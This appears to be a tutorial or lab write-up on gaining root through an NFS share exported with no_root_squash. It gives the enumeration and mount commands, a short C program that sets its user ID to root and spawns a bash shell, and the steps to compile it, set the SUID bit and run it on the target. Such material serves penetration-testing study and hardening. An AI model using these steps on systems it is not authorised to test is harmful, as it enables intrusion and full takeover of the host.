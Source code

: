 NFS is a distributed file system protocol that allows users to access files over a network as if they were on their local storage. It enables seamless file sharing across different systems and platforms.

NFS (Network File Sharing) configuration is kept in the ```/etc/exports``` file. This file is created during the NFS server installation and can usually be read by users.
![Screenshot from 2024-09-29 03-12-16](https://github.com/user-attachments/assets/bf41db70-90b7-4e9e-a012-a1ec58ab9785)

The critical element for this privilege escalation vector is the `no_root_squash` option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the `no_root_squash` option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

![lol](https://github.com/user-attachments/assets/042797ac-ae65-4413-9b72-4c4f75b01027)


STEPS
--
1. We will start by enumerating mountable shares from our attacking machine.
```
showmount -e <target ip>
```

2. We will mount one of the `no_root_squash` shares to our attacking machine and start building our executable.
```
$ mkdir ourOne
$ mount -o rw,vers=2 <target ipt>:/<share folder with no_root_squash option> ~/ourOne
$ cd ourOne
```
3. create an `script.c` in our machine:
```
int main(){ setgid(0);​setuid(0);​system("/bin/bash");​return 0;​}
```
4. We should make it excutable:
```
gcc script.c -o script -w
```
5. Set an SUID to it:
```
sudo chmod +s script
```
You will see below that both files (script.c and script are present on the target system. We have worked on the mounted share so there was no need to transfer them). 

6. In the target machine, we should go to the shared directory and run `script` file:
```
./script
```
Finally, we got the root access.





